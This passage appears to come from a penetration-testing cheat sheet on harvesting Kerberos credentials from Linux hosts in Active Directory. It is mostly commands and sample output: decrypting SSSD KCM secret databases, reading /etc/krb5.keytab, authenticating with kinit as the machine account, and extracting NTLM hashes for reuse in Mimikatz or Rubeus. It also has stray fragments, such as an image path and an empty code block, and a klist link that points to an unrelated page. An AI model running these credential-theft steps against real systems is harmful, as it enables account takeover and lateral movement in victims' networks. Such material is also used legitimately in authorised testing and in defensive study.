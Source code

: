 ```bash
```

### CCACHE ticket reuse from SSSD KCM

SSSD maintains a copy of the database at the path `/var/lib/sss/secrets/secrets.ldb`. The corresponding key is stored as a hidden file at the path `/var/lib/sss/secrets/.secrets.mkey`. By default, the key is only readable if you have **root** permissions.

Invoking \*\*`SSSDKCMExtractor` \*\* with the --database and --key parameters will parse the database and **decrypt the secrets**.

```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```

The **credential cache Kerberos blob can be converted into a usable Kerberos CCache** file that can be passed to Mimikatz/Rubeus.

### CCACHE ticket reuse from keytab

```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
kinit -k -t /etc/krb5.keytab COREWEBDL\$@CORE.CYBER.LOCAL
kvno host/coredc.core.cyber.local@CORE.CYBER.LOCAL
download /tmp/krb5cc_uid

```

### Extract accounts from /etc/krb5.keytab

The service keys used by services that run as root are usually stored in the keytab file **`/etc/krb5.keytab`**. This service key is the equivalent of the service's password, and must be kept secure.

Use [`klist`](https://adoptopenjdk.net/?variant=openjdk13\&jvmVariant=hotspot) to read the keytab file and parse its content. The key that you see when the [key type](https://cwiki.apache.org/confluence/display/DIRxPMGT/Kerberos+EncryptionKey) is 23 is the actual **NT Hash of the user**.

```
klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab
[...]
[26] Service principal: host/COMPUTER@DOMAIN
	 KVNO: 25
	 Key type: 23
	 Key: 31d6cfe0d16ae931b73c59d7e0c089c0
	 Time stamp: Oct 07,  2019 09:12:02
[...]
```

On Linux you can use [`KeyTabExtract`](https://github.com/sosdave/KeyTabExtract): we want RC4 HMAC hash to reuse the NLTM hash.

```bash
python3 keytabextract.py krb5.keytab 
[!] No RC4-HMAC located. Unable to extract NTLM hashes. # No luck
[+] Keytab File successfully imported.
        REALM : DOMAIN
        SERVICE PRINCIPAL : host/computer.domain
        NTLM HASH : 31d6cfe0d16ae931b73c59d7e0c089c0 # Lucky
```
